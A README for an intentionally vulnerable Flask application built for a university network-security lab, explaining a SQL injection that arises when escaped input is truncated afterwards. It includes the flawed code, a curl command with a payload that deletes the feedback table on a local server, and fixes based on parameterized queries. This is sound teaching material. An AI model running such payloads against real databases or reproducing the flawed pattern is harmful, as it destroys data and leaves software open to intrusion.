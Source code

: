 # NCS lab 4
Intentionally vulnerable application (home assignment) for [S22] Network and Cyber Security course at Innopolis University.

The application works on Flask framework and contains these intended vulnerabilities:

* SQL Injection

## Launch instructions

### On first startup
* Install flask (if not already): https://flask.palletsprojects.com/en/2.1.x/installation/

* When launching the application for the first time, run `python init_db.py` to initialize the DB using schema

### Start with existing DB
To start the program use this:
```bash
export FLASK_APP=main
flask run
```

## About vulnerabilities
### SQL Injection
#### Description
This vulnerability allows malicious users to execute unintended queries on the server database (or existing queries with unexpected parameters). It allows to perform some dangerous actions on the database, which include deletion of the records, stealing of the personal data, and etc.

#### Technical description
Currently user input is sanitized naively (by replacing single quote with two single quotes: `'` -> `''`). However, after the sanitizing the input is trimmed to not exceed a certain threshold, which may revert this action. Let's look at the code snippet that manages the SQL query:
```python
author = sanitize(author)
text = sanitize(text)
author = author[:128]
text = text[:512]
q = "INSERT INTO feedback (author, text) VALUES ('{}', '{}');".format(
    author, text
)
conn.cursor().executescript(q)
```
Here, if `author` would be equal to 127 `a` characters and one `'`, sanitize would transform it into 129 character-long string and after that remove the last appended quote. This will turn the query into
```python
"INSERT INTO feedback (author, text) VALUES ('aa...aa'', '{}');"
```
which will allow to write unescaped data into the second field. For example, we could send
```python
text=",');delete from feedback;--"
```
which will result in 
```python
text = sanitize(text)
text == ",'');delete from feedback;--" # True
"INSERT INTO feedback (author, text) VALUES ('aa...aa'', ','');delete from feedback;--');"
```
and this is a valid SQL query that gets executed and results in `feedback` table being purged.
##### Note
We can't simply type the values in the input fields since `maxlength` attribute does not allow us to do so. However, we can easily remove it by opening the page source code and editing it. 
#### Exploitation process
Using tool `curl` we can exploit the vulnerability:
```bash
curl -d "author=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'&text=,');delete from feedback;--" -X POST http://127.0.0.1:5000/feedback
```
Assuming the application is running at http://127.0.0.1:5000/
#### Screenshots during exploitation

Before the attack:

![before](./images/before_sqli.png)

The attack:

![during](./images/attack_sqli.png)

Consequences:

![after](./images/after_sqli.png)
As we can see, previous reviews were deleted

#### Fixing recommendations
The following fixes should help with the problem:
1. It's better to use sqlite3's feature called "DB-API's parameter substitution" that is [recommended by authors of the library](https://docs.python.org/3/library/sqlite3.html#sqlite3-placeholders)
2. Use more robust escaping, for example [suggested by the flask's documentation](https://flask.palletsprojects.com/en/2.1.x/quickstart/#html-escaping) `markupsafe.escape`.
3. Trim the strings before manipulations. It helps to avoid the situations similar to aforementioned.
4. Use `execute` instead of `executescript` which ensures that there is only query supplied.
```python
author = author[:128]
text = text[:512]
author = escape(author)
text = escape(text)
conn.cursor().execute(
    "INSERT INTO feedback (author, text) VALUES (?, ?);",
    (author, text)
)
```